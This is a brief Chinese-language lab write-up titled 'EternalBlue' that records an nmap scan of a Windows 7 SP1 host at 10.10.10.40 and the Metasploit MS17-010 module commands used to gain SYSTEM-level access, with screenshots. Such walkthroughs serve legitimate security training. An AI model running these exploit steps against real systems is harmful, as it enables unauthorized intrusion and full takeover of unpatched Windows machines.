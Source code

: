 ```yaml
---
title: 永恒之蓝
categories:
- training
tags:
- training
- windows
---
```

10.10.10.40

```
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC

```
OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)

139、445，很眼熟，于是用nessus扫描一下，是不是永恒之蓝等类似漏洞。

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-22/2.PNG)

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-22/1.PNG)

```
use exploit/windows/smb/ms17_010_eternalblue 失败
use exploit/windows/smb/ms17_010
sysinfo
getuid
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-22/3.PNG)
运行后直接是最高权限。
